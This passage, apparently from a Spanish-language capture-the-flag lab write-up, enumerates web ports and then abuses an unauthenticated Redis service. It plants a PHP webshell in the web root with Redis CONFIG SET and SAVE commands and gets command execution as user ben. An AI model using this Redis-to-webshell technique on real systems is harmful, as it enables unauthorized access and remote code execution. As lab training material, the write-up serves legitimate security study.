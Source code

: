 Veremos varios puertos interesantes, pero entre ellos dos los cuales suelen alojas paginas web que serian el puerto `80` y el `8080` vamos a ver que contiene cada uno de ellos.

Si entramos dentro del puerto `80` veremos una pagina de `apache` normal por defecto, pero si entramos en la del `8080` veremos exactamente lo mismo, no veremos nada interesante fuera de lo normal, por lo que vamos a realizar un poco de `fuzzing`.

Si lanzamos un `gobuster` no veremos gran cosa, no nos va a detectar mas `subdirectorios` web ni nada parecido, por lo que solo nos queda el puerto `6379` vamos a ver que hace y como funciona.

## Redis (6379)

#### Qué es Redis

* Es una base de datos **NoSQL** que guarda datos en memoria (y opcionalmente los persiste en disco).
* No tiene “tablas” como MySQL, sino **claves** (`keys`) y **valores** (`values`), que pueden ser strings, listas, hashes, sets, etc.
* Se administra normalmente vía CLI (`redis-cli`) o con librerías en varios lenguajes.

Por lo que vemos podemos acceder al mismo de forma anonima, vamos a probar si pudieramos conectarnos de forma anonima.

```shell
redis-cli -h <IP_VICTIM>
```

Info:

```
192.168.5.75:6379> PING
PONG
```

Veremos que nos hemos conectado de forma exitosa, realizamos un `PING` para ver que funciona y efectivamente estamos dentro, dentro del mismo podremos modificar o subir archivos, lo que se nos ocurre que a lo mejor podremos subir una `webshell` a la ruta de los archivos web para realizarnos una `reverse shell` desde la web.

## Escalate user ben

```shell
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET x "<?php system(\$_GET['cmd']); ?>"
SAVE
```

Una vez echo esto, vamos a probar metiendonos en la pagina web de esta forma:

```
URL = http://<IP>:8080/shell.php?cmd=id
```

Info:

```
uid=1000(ben) gid=1000(ben) groups=1000(ben),6(disk)
```
